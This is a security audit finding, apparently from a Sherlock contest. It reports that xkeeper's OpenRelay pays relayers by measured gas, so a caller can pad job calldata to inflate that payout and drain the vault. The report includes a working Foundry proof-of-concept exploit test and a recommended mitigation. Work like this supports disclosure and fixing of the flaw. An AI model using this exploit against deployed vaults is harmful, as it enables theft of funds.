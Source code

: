 High Honey Scorpion

high

# Malicious caller can drain vault by inflating job payload

## Summary

A malicious caller can benefit from an increased payout by artificially inflating the calldata sent to the job, which is not validated beyond its selector.

## Vulnerability Detail

The OpenRelay works by measuring the gas used to execute the jobs. The caller is then rewarded based on this amount.

```solidity
// Execute the automation vault counting the gas spent
uint256 _initialGas = gasleft();
_automationVault.exec(msg.sender, _execData, new IAutomationVault.FeeData[](0));
uint256 _gasSpent = _initialGas - gasleft();

// Calculate the payment for the relayer
uint256 _payment = (_gasSpent + GAS_BONUS) * block.basefee * GAS_MULTIPLIER / BASE;
```

The caller, or selected fee receiver, is reimbursed with the spent gas, a bonus of 53000 units, plus a 20% on top of that.

When a job is executed, the vault checks that the caller is whitelisted, and that the selector is enabled for the job (address) given.

```solidity
// Check that the specific caller is approved to call the relay
if (!_approvedCallers[msg.sender].contains(_relayCaller) && !_approvedCallers[msg.sender].contains(_ALL)) {
  revert AutomationVault_NotApprovedRelayCaller();
}

// Create the exec data needed variables
ExecData memory _dataToExecute;
uint256 _dataLength = _execData.length;
uint256 _i;
bool _success;

// Iterate over the exec data to execute the jobs
for (_i; _i < _dataLength;) {
  _dataToExecute = _execData[_i];

  // Check that the selector is approved to be called
  if (!_approvedJobSelectors[msg.sender][_dataToExecute.job].contains(bytes4(_dataToExecute.jobData))) {
    revert AutomationVault_NotApprovedJobSelector();
  }
  (_success,) = _dataToExecute.job.call(_dataToExecute.jobData);
  if (!_success) revert AutomationVault_ExecFailed();

  // Emit the event
  emit JobExecuted(msg.sender, _relayCaller, _dataToExecute.job, _dataToExecute.jobData);

  unchecked {
    ++_i;
  }
}
```

However, there is no check on the calldata sent to the job (`jobData`) beyond its first 4 bytes. A malicious caller can simply append an arbitrary amount of bytes to the payload in order to inflate the calldata used in the call, artificially inflating as well the gas used in the operation. This doesn't conflict with the job execution itself, as any "excess" in the calldata will simply be ignored as long as the original arguments are there.

## Impact

Critical. A malicious caller can drain the vault when configured with OpenRelay, as they can artificially pump the gas used in the operation, and get away with the 20% bonus.

## Proof of Concept

The test reproduces a job execution comparing Bob, using the normal behavior, and the attacker, using the described vulnerability. Bob is paid 1653072000000000 while the attacker gets 4808832000000000 (using a base fee of 20 gwei), almost 3 times more by just appending a 10kb array in the `jobData`. The attacker can artificially grow this array as needed to drain the vault.

```solidity
/// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity 0.8.19;

import {Test, console2 as console} from "forge-std/Test.sol";
import {AutomationVaultFactory} from "../contracts/core/AutomationVaultFactory.sol";
import {AutomationVault, IAutomationVault} from "../contracts/core/AutomationVault.sol";
import {GelatoRelay} from "../contracts/relays/GelatoRelay.sol";
import {OpenRelay} from "../contracts/relays/OpenRelay.sol";
import {_NATIVE_TOKEN, _ALL} from "../utils/Constants.sol";

contract DummyJob {
    uint256 public counter;

    constructor() {
        counter = 1;
    }

    function job(uint256 a, uint256 b) external {
        for (uint256 i = 0; i < 10; i++) {
            counter += a +  b;
        }
    }
}

contract SherlockTest is Test {
    AutomationVaultFactory factory;

    OpenRelay openRelay;

    address alice;
    address bob;
    address attacker;

    function setUp() public {
        factory = new AutomationVaultFactory();

        openRelay = new OpenRelay();

        alice = makeAddr("alice");
        bob = makeAddr("bob");
        attacker = makeAddr("attacker");
    }

    function test_OpenRelay_InflateGas() public {
        vm.prank(alice);
        IAutomationVault vault = factory.deployAutomationVault(alice, _NATIVE_TOKEN, 0);

        DummyJob job = new DummyJob();

        // Configure OpenRelay
        address[] memory callers = new address[](1);
        callers[0] = _ALL;

        IAutomationVault.JobData[] memory jobs = new IAutomationVault.JobData[](1);
        jobs[0].job = address(job);
        jobs[0].functionSelectors = new bytes4[](1);
        jobs[0].functionSelectors[0] = DummyJob.job.selector;

        vm.prank(alice);
        vault.addRelay(address(openRelay), callers, jobs);

        // seed vault
        deal(address(vault), 1 ether);

        // take snapshot to compare both cases
        uint256 snapshotId = vm.snapshot();

        // test normal gas usage
        vm.startPrank(bob);

        assertEq(bob.balance, 0);

        IAutomationVault.ExecData[] memory execData = new IAutomationVault.ExecData[](1);
        execData[0].job = address(job);
        execData[0].jobData = abi.encodeWithSelector(DummyJob.job.selector, 420, 69);

        openRelay.exec(vault, execData, bob);

        uint256 bobPayment = bob.balance;
        console.log("Bob balance is:", bobPayment);

        vm.stopPrank();

        vm.revertTo(snapshotId);

        // test gas with attack
        vm.startPrank(attacker);

        assertEq(attacker.balance, 0);

        execData[0].job = address(job);
        // Inject dummy payload to artificially inflate gas usage
        bytes memory pad = new bytes(1024 * 10);
        execData[0].jobData = abi.encodeWithSelector(DummyJob.job.selector, 420, 69, pad);

        openRelay.exec(vault, execData, attacker);

        uint256 attackerPayment = attacker.balance;
        console.log("Attacker balance is:", attackerPayment);

        vm.stopPrank();

        assertGt(attackerPayment, bobPayment);
    }
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/OpenRelay.sol#L28-L34

## Tool used

Manual Review

## Recommendation

A direct mitigation could be to validate the length of the payload sent to the job. A better alternative would be to let the vault owner configure the max amount of gas willing to spend during job execution, so that the payment is bounded as well.
